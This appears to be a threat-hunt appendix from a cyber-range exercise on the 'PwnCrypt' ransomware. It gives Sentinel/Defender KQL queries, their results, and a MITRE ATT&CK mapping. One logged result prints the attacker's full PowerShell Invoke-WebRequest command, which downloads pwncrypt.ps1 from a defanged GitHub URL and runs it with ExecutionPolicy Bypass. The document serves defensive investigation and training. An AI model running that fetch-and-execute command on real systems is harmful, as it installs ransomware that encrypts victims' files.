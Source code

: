 ### Project: PwnCrypt Ransomware Project Appendix

#### Summmary:
This threat hunt was performed in Microsfot Azure and Defender XDR for End-Point. Below you'll see tables used with Sentinel (SIEM), KQL commands, and MITRE ATT&CK® Framework Mapping.

#### Raw event tables used:

| Table Name           | Official Documentation                                                                   |
| :------------------- | :--------------------------------------------------------------------------------------- |
| `DeviceNetworkEvents`| [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/devicenetworkevents) |
| `DeviceProcessEvents`| [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/deviceprocessevents) |
| `DeviceEvents`       | [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/deviceevents)       |
| `DeviceFileEvents`   | [Microsoft Learn Link](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/tables/devicefileevents)   |

#### KQL Appendix:

#### Tracing PowerShell-Initiated pwncrypt.ps1 Download Connection
```kql
let target_device = "arcwin10";
DeviceNetworkEvents
| where DeviceName == target_device and Timestamp == datetime(2025-05-10T19:01:44.3886333Z)
| project Timestamp, ActionType, InitiatingProcessCommandLine, RemoteUrl, InitiatingProcessAccountName, InitiatingProcessFileSize
| where isnotempty( RemoteUrl)
```

Query Result:
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| ActionType                  | ConnectionSuccess                                                  |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| RemoteUrl                   | hxxps://raw[.]githubusercontent[.]com                            |
| InitiatingProcessAccountName| arcanalyst1                                                      |
| InitiatingProcessFileSize   | 455680                                                           |

#### Confirming `pwncrypt.ps1` Script Execution on `arcwin10`


```kql
let target_device = "arcwin10";
let start_time = datetime(2025-05-10 18:50:00Z); //May 10, 2025 1:50:00 PM CDT
let end_time = datetime(2025-05-10 19:21:00Z); //May 10, 2025 2:21:00 PM CDT
DeviceProcessEvents
| where DeviceName == target_device
| where Timestamp between (start_time .. end_time )
| project Timestamp,AccountName, InitiatingProcessFileName, InitiatingProcessCommandLine, ProcessCommandLine, FileName, FileSize, AdditionalFields
| where InitiatingProcessFileName contains "powershell" and AccountName == "arcanalyst1"
| sort by Timestamp desc
```

Query Result:
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| AccountName                 | arcanalyst1                                                      |
| InitiatingProcessFileName   | powershell.exe                                                   |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| ProcessCommandLine          | "cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1 |
| FileName                    | cmd.exe                                                          |
| FileSize                    | 289792                                                           |
| AdditionalFields            | {"DesktopName":"Winsta0\\Default"}                               |

#### Verifying Full PowerShell Command Execution via DeviceEvents


```kql
let target_device = "arcwin10";
let start_time = datetime(2025-05-10 18:50:00Z); //May 10, 2025 1:50:00 PM CDT
let end_time = datetime(2025-05-10 19:21:00Z); //May 10, 2025 2:21:00 PM CDT
DeviceEvents
| where DeviceName == target_device
| where Timestamp between (start_time .. end_time )
| project Timestamp, ActionType, InitiatingProcessSHA1, InitiatingProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessParentFileName, AdditionalFields
| where ActionType contains "PowerShellCommand"
| sort by Timestamp asc
```

Query Result:
| Field                       | Value                                                              |
| :-------------------------- | :----------------------------------------------------------------- |
| Timestamp                   | May 10, 2025 2:01:44 PM                                            |
| ActionType                  | PowerShellCommand                                                |
| InitiatingProcessSHA1       | 801262e122d6a2e758962896260d55bbd0136a                           |
| InitiatingProcessCommandLine| powershell.exe                                                   |
| InitiatingProcessAccountName| arcanalyst1                                                      |
| InitiatingProcessParentFileName| explorer.exe                                                    |
| AdditionalFields            | {"Command":"Invoke-WebRequest -Uri 'hxxps://raw[.]githubusercontent[.]com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt[.]ps1' -OutFile 'C:\\programdata\\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\\programdata\\pwncrypt.ps1"} |

#### Tracing `pwncrypt.ps1` Ransomware File Renaming Activity

```kql
let target_device = "arcwin10";
DeviceFileEvents
| where DeviceName == target_device
| where ActionType == "FileRenamed" and FolderPath contains "pwncrypt"
| project Timestamp, ActionType, FileName, PreviousFolderPath, InitiatingProcessAccountName, InitiatingProcessFileName
| sort by Timestamp asc
```

Query Result:
| Timestamp           | ActionType  | FileName                                   | PreviousFolderPath               | InitiatingProcessAccountName | InitiatingProcessFileName |
| :------------------ | :---------- | :----------------------------------------- | :------------------------------- | :--------------------------- | :------------------------ |
| May 10, 2025 2:01:45 PM | FileRenamed | 3546_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 2:01:45 PM | FileRenamed | 6267_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 2:01:45 PM | FileRenamed | 6705_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | arcanalyst1                | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 4362_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 9982_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 3:13:16 PM | FileRenamed | 4489_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 8270_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 1130_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 7:13:25 PM | FileRenamed | 4935_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 6642_CompanyFinancials_pwncrypt.csv      | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 8762_ProjectList_pwncrypt.csv            | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |
| May 10, 2025 11:13:26 PM| FileRenamed | 8357_EmployeeRecords_pwncrypt.csv        | C:\Users\arcanalyst1\Desktop   | system                     | powershell.exe          |

### MITRE ATT&CK Framework

* **Command and Control** (`TA0011`):
    * **Payload Delivery:** `pwncrypt.ps1` was downloaded from an external GitHub URL using PowerShell's `Invoke-WebRequest` (aligns with `T1105` - Ingress Tool Transfer, leveraging `T1071.001` - Application Layer Protocol: Web Protocols).

* **Execution** (`TA0002`):
    * **PowerShell Scripting:** The core malware `pwncrypt.ps1` was executed via `powershell.exe` (`T1059.001` - Command and Scripting Interpreter: PowerShell).
    * **Command Shell Invocation:** `cmd.exe` was used to launch the PowerShell process that ran `pwncrypt.ps1` (`T1059.003` - Command and Scripting Interpreter: Windows Command Shell).

* **Defense Evasion** (`TA0005`):
    * **Execution Policy Bypass:** The script was run with `powershell.exe -ExecutionPolicy Bypass` to circumvent script execution restrictions (a common aspect of abusing `T1059.001` - PowerShell for defense evasion).

* **Privilege Escalation** (`TA0004`):
    * **Indicated Capability:** Later file encryption activity was observed under the `SYSTEM` account, and VirusTotal associated this tactic with the malware's hash, suggesting `pwncrypt.ps1` has or attempts privilege escalation. (The specific technique used by `pwncrypt.ps1` for this wasn't detailed in the provided logs).

* **Discovery** (`TA0007`):
    * **File & Directory Discovery:** The script enumerated user files and directories to identify targets for encryption (aligns with `T1083` - File and Directory Discovery).

* **Impact** (`TA0040`):
    * **Data Encrypted for Impact:** Files were encrypted, renamed (e.g., with `_pwncrypt.csv` suffix), and ransom/decryption instructions were generated (`T1486`).
